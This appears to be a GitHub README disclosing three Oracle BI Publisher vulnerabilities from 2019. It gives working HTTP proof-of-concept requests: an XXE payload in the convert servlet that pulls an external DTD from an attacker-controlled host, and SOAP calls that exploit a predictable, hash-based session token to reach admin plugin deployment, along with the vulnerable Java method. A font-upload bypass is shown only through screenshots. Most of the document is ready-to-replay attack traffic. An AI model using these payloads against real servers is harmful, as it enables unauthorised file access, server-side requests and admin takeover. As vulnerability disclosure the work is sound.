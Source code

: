 # Oracle-BI-bugs

## CVE-2019-2767
 * Subject: XXE IN CONVERT SERVLET
 * CVSSv3.0 Base Score: 7.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N
 
```
GET /xmlpserver/convert?xml=<%3fxml+version%3d"1.0"+%3f><!DOCTYPE+r+[<!ELEMENT+r+ANY+><!ENTITY+%25+sp+SYSTEM+"http%3a//ehost%3a1337/ev.xml">%25sp%3b%25param1%3b]>&_xf=Excel&_xl=123&template=123 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflat
Connection: close
Upgrade-Insecure-Requests: 1
```

## CVE-2019-2768
 * Subject: ACCESS TO ADMIN SERVICES, SESSION GENERATION ERROR
 * CVSSv3.0 Base Score: 7.5
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
 
Oracle BI has xmlpserver which uses an administrator to configure the server. To use xmlpserver services, the administrator needs to create a session using createSession function.
```
POST /xmlpserver/services/XMLPService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 610

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:rep="http://xmlns.oracle.com/oxp/service/report">
   <soapenv:Header/>
   <soapenv:Body>
      <rep:createSession soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">weblogic</username>
         <password xsi:type="xsd:string">asdQWE123</password>
         <domain xsi:type="xsd:string">bi</domain>
      </rep:createSession>
   </soapenv:Body>
</soapenv:Envelope>

```

```
<v2:sessionToken>-1626402211</v2:sessionToken>
```
```java
private String createCallerSession(final XDOPrincipal user, final String domain) {
        Logger.log("XMLPService.createCallerSession...if here things are looking ok", 1);
        final String token = tokenize(domain, user.getName());
        final XDOPrincipal principal = TokenHolder.getPrincipal(token);
        if (principal == null) {
            final XDOPrincipal guser = (XDOPrincipal)GlobalUser.get();
            TokenHolder.addPrincipal(token, guser);
        }
        return token;
    }
    
    private static String tokenize(final String domain, final String username) {
        final StringBuffer sb = new StringBuffer();
        if (domain != null) {
            sb.append(domain);
        }
        sb.append(':').append(username);
        final int key = sb.toString().hashCode();
        return new Integer(key).toString();
    }
    ```
```
POST /xmlpserver/services/v2/PluginService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 431

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:v2="http://xmlns.oracle.com/oxp/service/v2">
   <soapenv:Header/>
   <soapenv:Body>
      <v2:deploy>
         <v2:sessionToken>-1626402211</v2:sessionToken>
         <v2:appPath>0</v2:appPath>
         <v2:pluginName>1</v2:pluginName>
         <v2:uploadedData>2</v2:uploadedData>
      </v2:deploy>
   </soapenv:Body>
</soapenv:Envelope>
```



## CVE-2019-2771
 * Subject: BIP BYPASS FONT UPLOAD
 * CVSSv3.0 Base Score: 8.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:H/A:L
 
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f1.png)

![upload](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f2.png)

![write file](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f3.png)

![file on the system](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f4.png)

